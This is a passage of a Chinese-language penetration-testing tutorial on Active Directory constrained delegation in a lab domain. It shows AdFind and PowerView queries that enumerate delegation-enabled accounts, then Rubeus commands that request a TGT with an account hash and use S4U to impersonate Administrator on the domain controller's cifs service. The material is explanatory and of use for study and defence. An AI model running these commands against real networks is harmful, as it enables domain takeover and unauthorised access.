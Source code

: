 通过Adfind.exe查询域中配置约束委派的账户

    
    
    # 查询域中配置约束委派的机器账户  
    AdFind.exe -b "dc=ccc1,dc=test" -f "(&(samAccountType=805306369)(msds-allowedtodelegateto=*))" msds-allowedtodelegateto  
    # 查询域中配置约束委派的服务账户  
    AdFind.exe -b "dc=ccc1,dc=test" -f "(&(samAccountType=805306368)(msds-allowedtodelegateto=*))" msds-allowedtodelegateto  
    

![]()

PowerView查询

    
    
    # 查询约束委派机器账户  
    Get-DomainComputer -TrustedToAuth -Domain ccc1.test  
    # 查询约束委派服务账户  
    Get-DomainUser -TrustedToAuth -Domain ccc1.test  
    

### 约束委派利用

约束委派利用的前提是需要知道委派用户的明文密码或者hash 通过rebeus.exe来申请WIN7-PC机器用户的TGT

    
    
    rubeus.exe asktgt /user:WIN7-PC$ /rc4:9ae90aab9fb85d3cd6c6dc3b291d865a /domain:ccc1.test /dc:dc.ccc1.test /nowrap  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221123153823.png)

使用s4uself扩展来请求DC的cifs的票据并将票据导入到内存中

    
    
    Rubeus.exe s4u /impersonateuser:Administrator /msdsspn:cifs/dc.ccc1.test /dc:dc.ccc1.test /ptt /ticket:<ticket>  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221123153824.png)

image.png

可直接访问dc的cifs服务

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221123153825.png)

## 参考
